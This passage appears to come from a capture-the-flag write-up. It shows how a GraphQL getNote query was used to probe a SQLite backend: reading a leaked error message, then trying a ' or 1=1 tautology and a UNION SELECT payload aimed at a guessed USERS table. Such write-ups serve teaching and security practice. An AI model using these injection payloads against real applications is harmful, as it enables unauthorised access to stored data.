 This result came back:

```
{
  "errors": [
    {
      "message": "(sqlite3.OperationalError) unrecognized token: \"'''\"\n[SQL: SELECT * FROM NOTES where uuid=''']\n(Background on this error at: http://sqlalche.me/e/13/e3q8)",
      "locations": [
        {
          "line": 2,
          "column": 3
        }
      ],
      "path": [
        "getNote"
      ]
    }
  ],
  "data": {
    "getNote": null
  }
}
```

Nice!  This error tells us a few things:

* sqlite is at play
* there is a table called **NOTES**
* it has at least one column called **uuid**
* our injection appears in an equality comparison against that **uuid** column


Obvious first thing to try:

```
query{
  getNote(q: "' or 1=1; --"){
    uuid
    title
    body
    authorId
    id
  }
}
```

This returned a bunch of stuff but not the flag.

Totally guessing that there might be a USERS table, I tried this:

```
query{
  getNote(q: "' union select uuid,username,3,4 from USERS; --"){
    uuid
    title
    body
    authorId
    id
  }
}
```
